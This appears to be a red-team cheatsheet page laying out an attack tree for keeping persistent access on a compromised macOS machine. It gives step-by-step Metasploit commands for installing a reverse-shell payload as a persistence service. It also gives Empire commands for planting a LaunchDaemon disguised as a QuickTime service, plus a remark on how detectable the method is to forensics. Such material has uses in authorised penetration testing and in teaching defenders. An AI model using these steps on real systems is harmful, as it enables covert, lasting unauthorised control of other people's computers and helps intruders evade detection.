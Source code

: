 # Maintaining access on macOS

## Attack tree

```text
1 Maintain access on macOS using meterpreter
    1.1 In meterpreter background the current basic shell (AND)
    1.2  > use exploit/osx/local/persistence (AND)
    1.3 Set RUN_NOW to true (AND)
    1.4 Set SESSION to the id of the basic shell just put in the background (AND)
    1.5 > show payloads (AND)
    1.6 Inject payload (such as osx/x86/shell_reverse_tcp) as a service with > set PAYLOAD [payload] (AND)
    1.7 Set LHOST and LPORT
    1.8 > exploit
    1.9 Copy the three commands given for cleanup later
2 Maintain access on macOS using empire 
    2.1 Empire agent with high integrity (root) running on macOS (see privilige escalation on macOS tree) (AND)
    2.2 > interact with agent
    2.3 > usemodule persistence/osx/Launchdaemonexecutable
    2.4 > info (to see all options)
    2.5 > set DaemonLocation [absolute path] (for example /Library/Application Support/QuickTimeDaemon)
    2.6 > set DaemonName [value] (com.apple.QuickTime in our case)
    2.7 > set Listener [value] (http in our case)
    2.8 > execute
```

## Notes

* The empire method reports it is not opsec safe. A forensics artist may be able to tell we were there.

## Cheatsheets

* [Linux post exploitation enumeration](cheatsheets:docs/enumeration/linux-post)
* [Offensive security: Meterpreter Basic Commands](https://www.offensive-security.com/metasploit-unleashed/meterpreter-basics/)
* [Metasploit documentation](https://docs.metasploit.com/)